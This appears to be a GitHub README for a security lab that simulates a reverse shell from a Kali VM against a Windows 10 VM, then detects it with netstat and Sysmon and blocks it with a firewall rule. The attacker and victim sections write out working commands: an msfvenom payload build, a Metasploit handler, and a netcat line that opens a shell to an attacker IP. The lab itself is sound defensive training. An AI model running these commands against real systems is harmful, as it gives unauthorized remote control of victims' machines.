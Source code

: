 # 🧪 Reverse Shell Attack & Detection Lab

## 🎯 Project Overview
This project simulates a **reverse shell attack** in a controlled environment using **Kali Linux (attacker)** and a **Windows 10 VM (victim)**. The goal is to understand how attackers establish unauthorized shell access, and how defenders can **detect, analyze, and mitigate** the threat using tools like **Sysmon, netstat, and Windows Firewall**.

---

## ⚙️ Lab Setup

### Requirements
- **VirtualBox or VMware** for virtualization  
- **Kali Linux VM (Attacker)** → [Download Kali](https://www.kali.org/get-kali/)  
- **Windows 10 VM (Victim)** → [Download Windows 10 Evaluation](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise)  
- **Networking:** Host-only Adapter or NAT mode to enable attacker–victim communication  

---

## 🔴 Attacker Steps (Kali Linux)

1. **Start Netcat Listener**
   ```bash
   nc -nlvp 4444
   ```

2. **Generate Payload with Metasploit (Optional)**
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe > shell.exe
   ```

3. **Transfer Payload to Victim**
   - Shared folder  
   - USB  
   - Python web server (`python3 -m http.server`)

4. **Start Metasploit Handler**
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <Kali_IP>
   set LPORT 4444
   run
   ```

---

## 🔵 Victim Steps (Windows 10)

1. **Execute Payload / Netcat Command**
   ```cmd
   nc <attacker_IP> 4444 -e cmd.exe
   ```

2. **Detect Suspicious Connection with Netstat**
   ```cmd
   netstat -ano | findstr :4444
   ```

3. **Install & Use Sysmon for Logging**
   ```cmd
   sysmon -accepteula -i
   ```
   - Event ID 1 → Process creation (`cmd.exe`)  
   - Event ID 3 → Network connection (reverse shell)

4. **Check Active Processes**
   ```cmd
   tasklist | findstr "cmd"
   ```

---

## 🛡️ Defensive Mitigation

1. **Block Reverse Shell via Windows Firewall**
   ```cmd
   netsh advfirewall firewall add rule name="Block Reverse Shell" dir=out action=block protocol=TCP remoteport=4444
   ```

2. **Optional:** Run Antivirus or Windows Defender to quarantine the payload (`shell.exe`).

---

## 📊 Outcomes

- Simulated reverse shell attack with **Netcat & Metasploit**.  
- Detected activity using **Sysmon logs, netstat, and process monitoring**.  
- Mitigated threat by **blocking outbound reverse shell traffic** with Windows Firewall.  
- Documented entire **red team vs blue team workflow** with logs and screenshots.  

---


